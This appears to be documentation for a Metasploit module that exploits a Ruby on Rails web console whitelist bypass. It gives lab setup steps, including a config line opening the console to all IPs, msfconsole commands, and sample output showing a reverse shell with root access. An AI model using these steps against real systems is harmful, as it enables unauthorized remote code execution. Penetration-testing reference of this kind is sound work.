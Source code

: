 ##Description

 This module exploits an IP whitelist bypass vulnerability in the developer web console included with Ruby on Rails 4.0.x and 4.1.x. This module will also achieve code execution on Rails 4.2.x if the attack is launched from a whitelisted IP range.

## Verification Steps
**Prerequisites :**
```
$ gem install rails -v 4.2.6
$ rails new taco
$ cd taco
$ vim config/environments/development.rb
  Add the following line just before the final `end' tag:
  config.web_console.whitelisted_ips = %w(0.0.0.0/0)
$ bundle
$ rails server
```

**Installing nodejs :**
```
sudo apt-get install nodejs
```

**Launch msfconsole :**
1. Do: ```use exploit/multi/http/rails_web_console_v2_code_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [Port]```
5. Do: ```run```

##Sample Output

```
msf > use exploit/multi/http/rails_web_console_v2_code_exec 
msf exploit(rails_web_console_v2_code_exec) > set RHOST 192.168.0.106
msf exploit(rails_web_console_v2_code_exec) > set RPORT 35678
msf exploit(rails_web_console_v2_code_exec) > run

[*] Started reverse TCP handler on 192.168.0.102:4444
[*] Sending payload to /__web_console/repl_sessions/d89c2f96387f4b9dd612c0abb7c06577
[*] Command shell session 1 opened (192.168.0.102:4444 -> 192.168.0.106:35678) at 2017-04-07 04:13:52 +0800

id
uid=0(root) gid=0(root) groups=0(root)


```
